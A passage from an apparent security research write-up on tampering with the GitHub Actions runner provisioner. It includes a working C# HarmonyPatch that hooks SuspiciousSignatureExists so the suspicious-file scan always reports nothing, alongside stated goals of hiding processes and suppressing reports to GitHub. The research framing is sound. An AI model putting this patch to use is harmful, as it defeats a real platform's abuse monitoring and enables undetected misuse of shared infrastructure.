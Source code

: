 The `NetworkLogger` will send all information to any IPv4 address.

I started a local server on GitHub Actions VM and just walked away for 15 minutes to get logs.

![09_first_inject](assets/09_first_inject.jpeg)

As you can see, intercepting of function works!

### Proof of concept

Okay, now let's try to do the following:
- bypass check for suspicious files (related to SuspiciousFilesMonitorJob)
- bypass processes checking and their arguments (related to ProcessMonitorJob)
- don't report about suspicious activity to GitHub host

As I showed earlier, there is such a function for recursively scanning directories
```csharp
namespace Microsoft.AzureDevOps.Provisioner.Framework.Monitoring {
    class SuspiciousFilesMonitorJob {
        private bool SuspiciousSignatureExists(string directory, int currDepth) { ... }
    }
}
```

Look at the screenshot above, it works like this:
```
SuspiciousSignatureExists(directory=@"D:\a", currDepth=0);
    SuspiciousSignatureExists(directory=@"D:\a\test-repo", currDepth=1);
        SuspiciousSignatureExists(directory=@"D:\a\test-repo\test-repo", currDepth=2);
            ...
```

Also let's look at the decompiled code to understand its logic:

![10_suspicious_files_checker](assets/10_suspicious_files_checker.png)

This function will recursively go down through the directories until it reaches depth 5.
So, I wrote a HarmonyPatch to fix that and remove all checks!

```csharp
[HarmonyPatch(typeof(Microsoft.AzureDevOps.Provisioner.Framework.Monitoring.SuspiciousFilesMonitorJob))]
public class SuspiciousFilesMonitorJobPatches
{
    [HarmonyPrefix]
    [HarmonyPatch("SuspiciousSignatureExists")]
    static bool SuspiciousSignatureExists(
        Microsoft.AzureDevOps.Provisioner.Framework.Monitoring.SuspiciousFilesMonitorJob __instance,
        string directory,
        int currDepth,
        ref bool __result
    )
    {
        NetworkLogger.GetInstance().Write($"{__instance.Name} // SuspiciousSignatureExists({directory}, {currDepth})");
        __result = false; //no suspicious files

        //don't call SuspiciousFilesMonitorJob.SuspiciousSignatureExists(...)
        //now provisioner will not scan subfolders at all
        return false;
    }
}
```
